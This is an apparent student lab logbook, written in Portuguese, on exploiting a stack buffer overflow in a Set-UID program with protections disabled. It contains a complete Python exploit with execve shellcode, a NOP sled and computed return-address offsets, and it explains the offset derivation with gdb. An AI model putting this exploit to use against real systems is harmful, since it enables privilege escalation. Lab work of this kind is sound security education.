







# Logbook 5

## Task 1

- Depois de desligar as contra medidas do sistema, e passar o apontador para zsh, compilámos o programa com **make**.

- Executámos os dois ficheiros, a32.out e a64.out , e percebemos que os dois ficheiros têm exatamente o mesmo output, ou seja, dão nos acesso a uma **shell** basicamente.

**Output**




## Task 2

- Compilámos o programa com **make**, mas antes disso alterámos a variável L1 do ficheiro Makefile para 172 (100 + 8*9) , e percebemos que o ficheiro make já permite o ataque pois desliga o StackGuard e também torna o ficheiro root e um programa Set-UID.

**Resultado**






## Task 3

- Começamos pela fase de investigação, e usamos as instruções do guião para perceber onde é que estava alocado o buffer e onde é que se encontrava o endereço base.






- Seguidamente alterámos o código do exploit para que conseguissemos obter um buffer overflow, o shellcode de 32 bits que estava no ficheiro shellcode.c, e depois o início para 490 para se alocar no final dos 517 bytes, 517-27(shellcodesize), o return address para um lugar a 490 bytes de onde está alocado o buffer, e o offset para a distancia entre o buffer e o endereço base + 4, que é basicamente a diferença entre o endereço base e o buffer + 4 bytes para não esrever sobre o ebp.

``` python
#!/usr/bin/python3

import sys


# Replace the content with the actual shellcode

shellcode= (

  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"

  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"

  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  

).encode('latin-1')


# Fill the content with NOP's

content = bytearray(0x90 for i in range(517)) 


##################################################################

# Put the shellcode somewhere in the payload

start = 490 # Changed this number 

content[start:start + len(shellcode)] = shellcode


# Decide the return address value 

# and put it somewhere in the payload

ret    = 0xffffc9e4 + start  # Changed this number 

offset = 0xffffca98 - 0xffffc9e4 + 4      # Changed this number 


L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 

##################################################################


# Write the content to a file

with open('badfile', 'wb') as f:

  f.write(content)
```

**Explicação**

Para analisar ainda:

- Start: Muitos números davam, e inicialmente pensamos alocar mais para o meio o shell code, uma vez que o size é 517, mas depois decidimos usar mais perto do fim, mas que funcionasse à mesma, e colocámos o start = 490, apesar de a partir de 428 quase todos funcionarem até 490(517-27(shellcode size));

- Ret: Queriamos mudar o ret, para este apontar para o nosso shell code, portanto como colocámos o shell code em start = 490, queremos que o nosso buffer 0xffffc9e4 passe a apontar para 490 bytes depois, ou seja 0xffffc9d4 + start.

- Offset: É onde temos de colocar o nosso return code que aponta para o shell code que colocámos no início.Primeiramente tentámos apenas subtrair o buffer ao endereço base, mas deu nos um segmentation faul, mas depois conseguimos perceber o porquê, e isto ocorre porque a subtração dá nos a distância em bytes entre o endereço base e o buffer, ou seja se usássemos essa diferença apenas o programa ia tentar escrever numa posição ocupada pelo endereço base, portanto à diferença entre o endereço base o buffer adicionámos 4 para que o return seja colocado num sitio que não seja crítico para a pilha e sem segmentation fault.




Questão 2:

-Com alguns comandos no gdb conseguimos perceber onde é que ficou alocado o shell code e onde está o return adress, principalmente comandos que inspecionam certos bytes após o buffer ou o endereço base.

-O shell code ficou alocado mais ou menos a partir do endereço 0xffffcec0, e o return adress onde era mais ou menos esperado uma vez que definimos ret = buffer + start.





---